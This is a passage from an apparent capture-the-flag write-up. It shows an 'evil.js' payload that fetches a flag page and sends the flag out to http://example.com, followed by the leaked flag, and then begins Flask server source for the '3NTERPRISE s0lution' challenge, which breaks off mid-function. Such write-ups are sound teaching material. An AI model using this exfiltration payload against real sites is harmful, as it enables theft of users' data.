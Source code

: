 In the `evil.js` we simply fetch the flag and send it back to our server:

```javascript
$.get('flag', function(text) {
        $.ajax({
                url: "http://example.com/?flag="+text.match('alert-success.>(.*)</div>')[1],
                dataType: 'script'
        }); 
});
// DrgnS{Ar3_Y0u_T3mP14t3d?}
```

### 3NTERPRISE s0lution

The server code (some parts are omitted):

```python
@app.route('/reg', methods=['POST'])
def do_register_post():
  params = get_required_params("POST", ['login', 'passwd', 'solve'])
  good_sum = flask.session.get(K_CAPTCHA, -1)
  if CAPTCHA_ENABLED and params['solve'] != good_sum:
    add_msg('U fail at math ;-(')
  n = sql_session.query(model.Users).filter_by(username=params.get('login')).count()
  if n > 0:
    add_msg("User already exists !")
    return do_render()

  user = model.Users(
    username=params.get('login'),
    password=backend.password_hash(params.get('passwd')),
    motd="",
  )
  sql_session.add(user)
  sql_session.commit()
  backend.setup_user(params.get('login'))
  add_msg("User created ! login now !")
  return do_render()


@app.route('/login/user', methods=['POST'])
def do_login_user_post():
  username = get_required_params("POST", ['login'])['login']
  backend.cache_save(
    sid=flask.session.sid,
    value=backend.get_key_for_user(username)
  )
  state = backend.check_user_state(username)
  if state > 0:
    add_msg("user has {} state code ;/ contact backend admin ... ".format(state))
    return do_render()
  flask.session[K_LOGGED_IN] = False
  flask.session[K_AUTH_USER] = username

  return do_302("/login/auth")


@app.route("/login/auth", methods=['POST'])
def do_auth_post():
  flask.session[K_LOGGED_IN] = False
  username = flask.session.get(K_AUTH_USER)
  params = get_required_params("POST", ["password", "token"])
  hashed = backend.password_hash(params['password'])
  record = sql_session.query(model.Users).filter_by(
    username=username,
```